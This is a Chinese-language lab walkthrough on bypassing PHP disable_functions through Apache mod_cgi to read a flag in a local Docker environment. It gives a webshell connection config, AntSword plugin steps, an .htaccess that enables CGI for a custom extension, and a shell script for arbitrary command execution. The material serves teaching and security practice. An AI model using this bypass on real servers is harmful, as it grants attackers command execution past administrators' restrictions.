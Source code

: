 ## 03 利用 Apache Mod CGI

### php.ini 配置如下:

```ini
disable_functions=pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,dl,mail,system,putenv
```

> 相比 01 多了 `putenv`

### 使用条件

* Linux 操作系统
* Apache + PHP (apache 使用 apache_mod_php)
* Apache 开启了 `cgi`, `rewrite`
* Web 目录给了 `AllowOverride` 权限
* 当前目录可写

###  绕过实验

AntSword >= 2.1.4

我们的最终目的是获取 `/flag` 的内容, 这个文件是 644 权限，`www-data` 用户无法通过读文件的形式读到内容, 需要执行拥有 SUID 权限的 `tac` 命令(具体看 `/start.sh`)来获取 flag

1. 启动环境

```
$ docker-compose up -d
```

Shell | 密码
:-:|:-:
`http://127.0.0.1:18080/index.php` | ant
`http://127.0.0.1:18080/shell.php` | ant

2. 打开 AntSword 添加 Shell

![1.png](https://i.loli.net/2019/07/08/5d221a74179c434216.png)

也可直接使用配置导入插件导入下面的配置:

```
{"_id":"NKonQAcRd5DAIcRj","addr":"IANA 保留地址用于本地回送","category":"default","ctime":1562515402313,"decoder":"default","encode":"UTF8","encoder":"base64","httpConf":{"body":{},"headers":{"User-Agent":"Mozilla/5.0 (iPhone; CPU iPhone OS 8_0 like Mac OS X) AppleWebKit/600.1.4 (KHTML, like Gecko) Mobile/12A365 MicroMessenger/5.4.1 NetType/WIFI"}},"ip":"127.0.0.1","note":"AntSword-Labs Bypass disable functions 2","otherConf":{"chunk-step-byte-max":"3","chunk-step-byte-min":"2","command-path":"","filemanager-cache":1,"ignore-https":1,"request-timeout":"30000","terminal-cache":0,"upload-fragment":"500","use-chunk":0,"use-multipart":0},"pwd":"ant","type":"php","url":"http://127.0.0.1:18080/index.php","utime":1562515402313}
```

3. 使用「绕过 disable_functions」插件, 选择 `Apache_mod_cgi` 模式进行

![](https://i.loli.net/2019/07/15/5d2c2cc4cf24187911.png)

> 注意: 刚点进来的时候, 左侧状态栏处都是 NO

4. 点击「开始」按钮后，成功之后, 会创建一个新的「虚拟终端」

![](https://i.loli.net/2019/07/15/5d2c2ccd7278d84797.png)

5. 尝试执行命令, 成功

![](https://i.loli.net/2019/07/15/5d2c3043519ac32840.png)

**注意1:**

注意看上图中进程树的情况

如果执行命令直接使用 `system` 等执行命令的函数, 进程列表是这样的:

```
www-data   810   684  0 Jul06 ?        00:00:14 /usr/sbin/apache2 -k start
www-data   909   712  0 00:17 ?        00:00:00 sh -c /bin/sh -c "cd "/var/www/html";ps -aef;echo [S];pwd;echo [E]" 2>&1
www-data   910   909  0 00:17 ?        00:00:00 /bin/sh -c cd /var/www/html;ps -aef;echo [S];pwd;echo [E]
www-data   911   910  0 00:17 ?        00:00:00 ps -aef
```

可以明显看出本例中执行命令时, 利用了CGI,我们将命令写入到 `shell.ant` 文件中, 达到执行任意命令的目的

因为是访问了 CGI, 如果命令执行不成功, 页面是会直接报 500 错误, 不会在虚拟终端下显示出来(见: `cat /flag`)

然后我们改用 tac 命令来获取 flag 即可

#### 手动

新建 `.htaccess` 文件:

```
Options +ExecCGI
AddHandler cgi-script .ant
```

然后新建 `shell.ant` 文件

```bash
#!/bin/sh
echo&&cd "/var/www/html";ls -al;echo [S];pwd;echo [E]
```

最后访问 `shell.ant` 文件即可

![4.png](https://i.loli.net/2019/07/15/5d2c31889223c15126.png)
